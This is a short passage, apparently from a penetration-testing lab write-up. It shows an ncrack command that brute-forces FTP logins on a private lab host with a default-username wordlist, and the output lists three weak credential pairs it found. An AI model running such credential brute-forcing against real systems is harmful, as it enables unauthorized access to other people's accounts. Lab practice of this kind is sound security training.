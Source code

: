 `ncrack -U /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt ftp://10.0.2.15:21 -v`

```
Discovered credentials for ftp on 10.0.2.15 21/tcp:
10.0.2.15 21/tcp ftp: 'postgres' 'postgres'
10.0.2.15 21/tcp ftp: 'service' 'service'
10.0.2.15 21/tcp ftp: 'user' 'user'
```
